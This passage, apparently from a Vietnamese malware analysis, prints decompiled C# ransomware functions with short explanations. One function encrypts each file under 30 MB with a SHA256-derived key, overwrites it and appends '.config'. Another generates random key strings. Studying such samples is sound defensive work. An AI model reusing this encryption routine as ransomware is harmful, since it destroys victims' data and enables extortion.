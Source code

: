 ```csharp 
            catch
            {
                Thread.Sleep(100);
            }
        }
    }
    catch
    {
        Thread.Sleep(100);
    }
}
```

Hàm ``ENCRYPTION`` mã hoá từng tệp tin và thêm ``.config`` ở cuối.

```csharp 
private static void __ENCRYPTION(string GET_INPUT_FILE, string GET_CIPHER_KEY)
{
    try
    {
        DISK_ENCODER.GET_FILE_INFO = new FileInfo(GET_INPUT_FILE);
        byte[] array = File.ReadAllBytes(GET_INPUT_FILE);
        byte[] array2 = Encoding.UTF8.GetBytes(GET_CIPHER_KEY);
        array2 = SHA256.Create().ComputeHash(array2);
        if (DISK_ENCODER.GET_FILE_INFO.Length <= 31457280L)
        {
            byte[] array3 = DISK_ENCODER.__CIPHER(array, array2);
            File.WriteAllBytes(GET_INPUT_FILE, array3);
            File.Move(GET_INPUT_FILE, GET_INPUT_FILE + ".config");
        }
    }
    catch
    {
        Thread.Sleep(100);
    }
}
```

Hàm ``KEYGEN`` tạo ra chuỗi ngẫu nhiên theo key size cho trước.

```csharp 
private static string __KEYGEN(int GET_KEY_SIZE)
{
    int i = 0;
    StringBuilder stringBuilder = new StringBuilder();
    Random random = new Random();
    while (i < GET_KEY_SIZE--)
    {
        stringBuilder.Append("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!*@$+/)%(&?-="[random.Next("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!*@$+/)%(&?-=".Length)]);
    }
    return stringBuilder.ToString();
}
```
